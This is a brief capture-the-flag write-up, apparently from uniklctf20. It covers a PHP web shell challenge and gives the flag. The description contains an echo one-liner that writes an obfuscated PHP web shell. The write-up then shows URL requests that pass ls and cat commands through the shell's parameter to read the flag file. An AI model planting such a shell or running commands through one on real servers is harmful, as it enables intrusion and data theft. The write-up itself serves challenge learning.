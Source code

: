 #### Points: 60
#### Description: echo -ne '<?={${~\xa0\xb8\xba\xab}[\xa0]};' > shell.php
http://103.55.10.195:1337/shell.php 
---
#### _Write-up_

In this challenge I was given shell.php file. The information inside the file is as shown below.
There is a little bit complicated to solve this challenge. However, after trial and error, I get to enter the webserver. I use the parameter http://103.55.10.195:1337/shell.php?%a0=ls and there is two(2) file which is benderaaaaaa.txt and shell.php.

![](pic1.PNG)

After that I try to cat the benderaaaaaa.txt file using parameter  http://103.55.10.195:1337/shell.php?%a0=cat%20benderaaaaaa.txt and I found the flag. 

![](pic2.PNG)

#### The flag of this challenge is uniklctf20{abcdefg_G00dBy3}
